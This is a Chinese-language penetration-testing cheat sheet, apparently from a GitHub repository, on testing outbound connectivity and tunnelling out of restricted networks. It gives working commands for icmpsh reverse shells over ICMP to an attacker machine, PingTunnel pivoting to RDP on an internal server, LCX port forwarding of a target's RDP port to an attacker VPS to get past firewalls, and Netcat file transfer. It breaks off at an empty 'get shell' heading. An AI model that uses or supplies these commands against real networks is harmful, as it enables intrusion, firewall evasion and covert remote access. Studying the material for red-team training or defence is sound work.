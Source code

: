 #### 2.1.2.1. ICMP协议 `ping  baidu.com`
#### 2.1.2.2. TCP协议 `nc -zv <target>  <port>`
#### 2.1.2.3. HTTP(S)协议 `curl <target>:<port>`
#### 2.1.2.4. DNS协议 `dig @vps-ip www.baidu.com A`
>windows : `nslookup www.baidu.com vips-ip`

## 2.2. 网络层层隧道技术
### 2.2.1. IPv6隧道-socat，6tunnel，nt6tunnel
>将IPv6数据报文封装在IPv4数据报文中

### 2.2.2. ICMP隧道-icmpsh,pingTunnel,icmptunnel,powershell icmp
>将TCP/UDP数据包封装到ICMP的ping数据包中，从而穿过防火墙，实现不受限制的网络访问
#### 2.2.2.1. [icmpsh](https://github.com/inquisb/icmpsh)
```ssh
    target:
           icmpsh.exe -t kali-ip  -d 500 -b 30 -s 128
    kali:
    apt install python-impacket
    git clone https://github.cominquisb/icmpsh.git /opt/icmpsh
    sysctl -w net.ipv4_icmp_echo_ignore_all=1
    ./run.sh
```
#### 2.2.2.2. [PingTunnel](http://www.cs.uit.no/~daniels/PingTunnel/PingTunnel-0.72.tar.gz)
>http://www.cs.uit.no/~daniels/PingTunnel/index.html
```ssh
    kali:192.168.10    
    web server:192.168.1.4   /1.1.1.x
    sql server:1.1.1.10
kali:
ptunnel -p 192.168.1.4 -lp 1080 -da 1.1.1.10 -dp 3389
```

## 2.3. 传输层隧道技术
### 2.3.1. Socket隧道：LCX/portmap端口转发

```ssh
>端口转发
target: lcx.exe -slave vps-ip 4444 127.0.0.1 3389 //将本机3389端口所有数据转发到vps-ip上的4444端口
vps-ip: lcx.exe -listen 4444 5555   //将本地4444端口监听的数据转发到5555端口
        mstsc //127.0.0.1:5555->target:3389
>本地端口映射
target: lcx.exe -tran 53 127.0.0.1 3389 //防火墙禁止3389后，可将3389端口数据转发到本地53端口
```
### 2.3.2. Netcat
#### 2.3.2.1. 常见使用场景
> banner获取 `nc -nv  ip  port `
> 连接主机`nc -nvv  ip  port `
> 扫描端口`nc -v -z  ip  port1-port2`
> 监听端口`nc -l -p 9999`
> 简易聊天室
>    * 服务端：`nc -lp 8888` 
>    * 客户器：`nc -nv  <client-ip> 8888`
> 文件传输
> * 接收方 ：`nc -lp 8888 > 1.txt`      //192.168.1.1
> * 发送方：`nc -nv 192.168.1.1 8888 < test.txt -q 1`
#### 2.3.2.2. 获取shell
```ssh
```